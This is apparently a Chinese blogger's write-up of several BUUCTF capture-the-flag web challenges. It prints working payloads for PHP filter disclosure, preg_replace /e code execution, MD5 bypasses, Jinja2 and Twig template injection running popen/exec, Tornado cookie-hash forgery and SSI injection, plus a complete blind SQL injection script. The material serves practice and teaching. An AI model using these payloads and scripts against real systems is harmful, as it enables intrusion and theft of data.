?text=data://text/plain;base64,SSBoYXZlIGEgZHJlYW0=&file=php://filter/convert.base64-encode/resource=next.php
这样我们就得到了next.php的源代码
<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;
function complex($re, $str) {
return preg_replace(
'/(' . $re . ')/ei',
'strtolower("\\1")',
$str
);
}
foreach($_GET as $re => $str) {
echo complex($re, $str). "\n";
}
function getFlag(){
@eval($_GET['cmd']);
}
正则匹配的命令执行
看源码，有个命令执行和正则匹配，但程序将我们的输入通过foreach()遍历输出，我们无法直接执行eval
但preg_replace()中有个e,这里可以执行命令
注意：php7已将选项e废弃
原理看这篇文章，说的比我清楚
https://blog.csdn.net/weixin_43749601/article/details/113417093
直接贴payload
next.php?\S*=${phpinfo()}
这个无法直接得到flag，但可以让我们调用getFlag()
payload
next.php?\S*=${getFlag()}&cmd=system('cat /flag');
flag
flag{a0bef091-1902-4c87-92dd-8d6bd592b8de}
[BJDCTF2020]Easy MD5
md5注入
开始，一个输入框，除此之外没有任何的信息，找了好久才抓包时看到考点
也是我瞎
猜测这里可能是将我们的输入改成了md5储存，这也是大名鼎鼎的彩虹库的原理
这里转成了16进制，只要在转化后字符符合注入要求即可了，百度看看
这里我用了第一个：ffifdyop
md5碰撞
这个知识点我之前说了
具体看之前写的**[MRCTF2020]Ez_bypass，或者我博客里的php笔记**
这里只说一下做法
找两个MD5加密后字符串为0e开头的即可passby
payload:
levels91.php?a=s878926199a&b=s155964671a
成功，又是md5
md5,数组绕过
同样，之前说过了
payload:
post:
param1[]=aaa¶m2[]=2
成功得到flag

flag:
flag{eb6ea706-9ce0-427f-9336-385a9de3fc36}
[BJDCTF2020]The mystery of ip
模板注入
本题原意是寻找框架的漏洞
不过我没经验，手测了
点开flag，题目给了我的ip地址，这表明题目获取了我的ip，所以伪造一下ip
成功伪造
我这里随意的输入了命名，发现有报错
代码是我百度了一串乱输的
所以，这里存在命令执行
测试，可以用花括号执行命令
得到flag
正确做法：https://blog.csdn.net/qq_41628669/article/details/106133129
通过模板分析，确定框架
然后做题
flag
flag{f5095f02-89ec-4a75-849a-2c560a0a631e}
[BJDCTF2020]Mark loves cat
.git 源码泄露
目录扫描发现存在.git文件
用GitHack将源码dump下来
分析
变量覆盖漏洞
我们传入?yds=flag
得到flag

分析：
漏洞在这两行代码
如果不存在
$_GET或$_POST其中之一，则输出$yds而上面的数组遍历将传入的参数名给了x，值给了y
但我们传入yds=flag时
在这个位置如此执行
$yds = $flag;于是flag便在下面输出
flag
flag{2ff487ff-e094-4dc5-835c-107af2c381e6}
[第三章 web进阶]SSTI
jinjaSSTI
题目明确告诉我们是ssti，直接测试即可
{{7*7}}

{{7*'7'}}
确定为jinja框架
判断方法还是这个经典的图
这里我直接贴payload
?password={% for a in "".__class__.__bases__[0].__subclasses__() %}
{% if a.__name__ == "_wrap_close" %}
{% for b in a.__init__.__globals__ %}
{% if "popen" in b %}
{{a.__init__.__globals__['popen']('cd app;cat server.py').read()}}
{% endif %}
{% endfor %}
{% endif %}
{% endfor %}
payload的构造方法我在SSTI中已经说过，这里不做赘述
flag
n1book{eddb84d69a421a82}
[BJDCTF2020]Cookie is so stable
TwigSSTI
在flag.php位置有输入框，在这里测试，发现有服务器端模板注入
测试发现是Twig模板
这个可以直接写payload到输入框，也可以注cookie中，题目本意是注cookie中
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /flag")}}
同样在SSTI中说明过，不在此重新说明
flag
flag{aa34f4b3-dea5-4163-9f3d-feab7e00edd3}
[CISCN2019 华北赛区 Day2 Web1]Hack World
sql注入
很简单的sql注入，除了过滤的很严格，不过还好给了列名和表名，不然得用无列名注入还是很麻烦的
直接盲注就可以，payload是1=(1=1)=1
顺便贴个我写的小脚本
#作者：Atmujie
#转载使用请注明出处
#from bs4 import BeautifulSoup
import requests
import string
import time
from urllib import parse
'''如需用header/data,请到res_get/post函数自行添加'''
#自定义项
#url
url = "http://b1e10c66-2481-426d-a94b-2285770056b5.node3.buuoj.cn/index.php" #get传参时请将?id等放在这里
# 传参接口，get/post
request_q = "post"
#sql闭合方式,判断符号（and or || &&）也写在这里
id = "1=(1="
# sql查询语句
# code = "database()"
# code = "substr(select(concat(schema_name))from(information_schema.schemata))"
# code = "select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())"
# code = "select(group_concat(column_name))from(information_schema.columns)where(table_name='loflag')"
code = "substr((select(concat(flag))from(ctftraining.flag)),1,68)"
#闭合过滤方式（#/--+/;%00）
#post传参需注入此处编码
#get传参无需对#url编码，本脚本已经自行编码
filt = ")=1"
#判断方式（if "judgment" in qingqiu）
judgment = "Hello, glzjin wants a girlfriend."
#单字符过滤,自行添加
guolv = "*+.?|$"
# 括号是否被过滤/拦截（yes/no默认为no）
brackets = "no"
#代码参考
'''
"{ids}"+"left(({codes}),{ints}) regexp binary({tmp}){filts}"
id=1'|| left((database()),1) regexp binary(0x5e73) --+
'''
#get传参模块
def res_get(url,code_q):
# get传参head
head = {
};
payload = url+code_q
res = requests.get(url = payload) # 需要head自行添加
return res
#post传参模块b
def res_post(url,code_q):
#post传参data
data = {
"id": ""+code_q
};
res = requests.post(url = url,data = data)
return res
#输出匹配字符16进制
def HexStr(string):
result = ''
for tmp in string:
result += hex(ord(tmp))
result = result.replace('0x', '')
return "0x"+result
#主函数
#打印所有字符串
str_s = (string.printable + "”")
#url过滤字符
if request_q == "get" and filt == "#":
filt = parse.quote_plus(filt)
if __name__ == "__main__" :
print("盲注开始")
text = str("")
zhi = []
ESC = 0
#循环盲注
for i in range(1,500):
if ESC !=1:
for strs in str_s:
try:
#去除过滤项
if strs in guolv:
continue
#设定正则表达式
tmp_hex = HexStr('^'+text+strs)
#输入语句
if brackets == "no":
code_q = "{ids}left(({codes}),{ints})regexp(binary({tmp})){filts}".format(ids=id,codes=code,ints=i,tmp=tmp_hex,filts=filt)
else:
exit("请重新定义输入语句或使用 order by 盲注,本脚本目前无 order by 模块")
if request_q == "get":
qingqiu = res_get(url,code_q).text
elif request_q == "post":
qingqiu = res_post(url,code_q).text
# print(qingqiu)
# #输出结果
# qingqiu = len(qingqiu) #长度判断
if judgment in qingqiu :
text += strs
print("检测成功，当前结果为",text)
time.sleep(0.2)
break
except Exception as e:
exit("未知错误,请检查脚本或网络")
if strs == "”":
print("盲注测试结束")
exit("结果为:{}".format(text))
还有改进的余地，以后在改
flag
flag{88f0a9e3-8a5b-493a-8475-980748a3d658}
[护网杯 2018]easy_tornado
render模板注入
tornado render是python中的一个渲染函数，也就是一种模板，通过调用的参数不同，生成不同的网页，如果用户对render内容可控，不仅可以注入XSS代码，而且还可以通过双花括号进行传递变量和执行简单的表达式。
本题在error报错处，可以执行模板注入
不过过滤很严格，打不进去的我搜了wp
没看懂，问了学长
这里说学长的思路
官方文档查看思路
首先看一下题目在问什么，这里告诉我们是cookie
这里告诉我们filehash的编码方式，是将cookie_sercret和md5编码后的filename连接
先看看cookie_sercret官方文档怎么说
我们知道了这事一个密码，并且可以在应用程序中设置
然后题目还提示了render
看看文档怎么说
选几个试一试
这说明入手点没有错，然后找render和cookie_sercert的联系
经过很多很多次的看函数看源码，最后找到了srettings
前面图里有行字，不知道大家有没有印象
试试：
092d4bfe-0a2b-4507-bf74-65da729654c1
后面就好办了，根据提示写个脚本
import hashlib
hash = hashlib.md5()
filename='/fllllllllllllag'
cookie_secret="092d4bfe-0a2b-4507-bf74-65da729654c1"
hash.update(filename.encode('utf-8'))
s1=hash.hexdigest()
hash = hashlib.md5()
hash.update((cookie_secret+s1).encode('utf-8'))
print(hash.hexdigest())
运行，访问
得到flag
payload
file?filename=/fllllllllllllag&filehash=bf5ae3e09832e8575c20f84dfee458d6
flag
flag{2d81502b-03f5-4e6b-bac4-d2ccbe1e7ca8}
[BJDCTF2020]EasySearch
源码泄露
CTF中源码泄露是一件很常见的事情，趁着这道题，我顺便来说一下源码泄露常见的类型
.git源码泄露
这种泄露在博客中很常见，只要挂载了github远程仓库，就一定有.git文件，区别只是它被藏在了哪里
除非搭建好博客，顺手删了.git文件，并大喊我不更新了
找到.git目录位置，用GitHack工具dump下来，就可以得到部分源码
.ds_store
这个我记得我在之前提到过，它包含了文件夹的目录信息
当然，穷人不配.ds_store泄露，这是MAC电脑专属的
备份压缩文件
常见备份文件后缀
.rar
.zip
.7z
.tar.gz
.bak
.swp
.txt
.html
这个说起来，我想基本每个人都有备份的习惯，一般都是右击，然后发送为zip文件
CTF做的多了，大家应该都知道www.zip，因为这是所有程序员最爱用的？
可能有人会杠，我不爱用这个名字，那我们分析一下
linux系统，以及apache,网页常用路径是这个 /var/www/html
www，正是第二级文件夹
我们备份一般有两种选择，一是备份整个文件夹，二是只备份指定项目，我想不管是哪个，应该没多少人备份完会改备份文件的名字吧，毕竟一来文件多了，备份改名一时爽，某日找备份火葬场
综上，大多数人备份，都不改名
这样有什么后果呢？举两个例子
win备份
看，备份后的zip文件名就是目录名，不管用什么压缩软件，结果都一样。
linux备份

这里为什么一样呢？
你按一下 Tab 就能自动补全的事情，你会自己起一个名字？不会吧
结论出来了，大多数人备份文件，从不改名吗，基本文件夹名或者文件名就是备份名，所以我们只要知道文件名，很轻易就能得到源码备份，CTF的www.zip就是这个道理，当然CTF里一般是故意改成这名的，平时见到的就是`项目文件夹名.备份后缀`
一般配合目录穿越漏洞使用，不过实际中可用目录爆破的方式得到备份，所以大家都不是很在意这个问题，根本不用费心思想为什么
——————————言归正传——————————
本题就存在源码泄露
就像我说的，配合目录穿越查看
这步我字典拉跨了没扫到，看wp，都没提到目录穿越这回事，学长憨憨的访问了半天，最后说题崩了（笑）
备份文件，肯定不会在文件夹里，那怕不是备份个寂寞
MD5值爆破
这步没什么好说的
要求password md5加密后为指定值，直接爆破
<?php
$admin = '6d0bc1';
$a = 0;
while(TRUE)
{
if(substr(md5($a),0,6) == $admin)
{
die($a);
}
else
{
$a++;
}
}
结果：code=2020666
SSI注入
审计源码我们可以看到如下操作
post传入的username 被写入了.shtml文件，然后命名为一串毫无意义的字符串
先看看shtml文件是什么

这里就很明确了，SSI注入
我直接贴payload了，具体用法自行百度
password=2020666&username=
flag在这个名字奇奇怪怪的文件里，应该都看的懂
然后看看Network，找到保存的路径（这步简直毫无意义）
访问它，得到flag
flag
flag{bb20a263-400d-4289-952d-5fe000b815fe}
来自后话
本来打算把BUU所有题目都写一起，可不知不觉就写了很多，以至于我自己查阅都很麻烦，所以干脆到此为止，我另开几篇新文章继续写，写成一个序列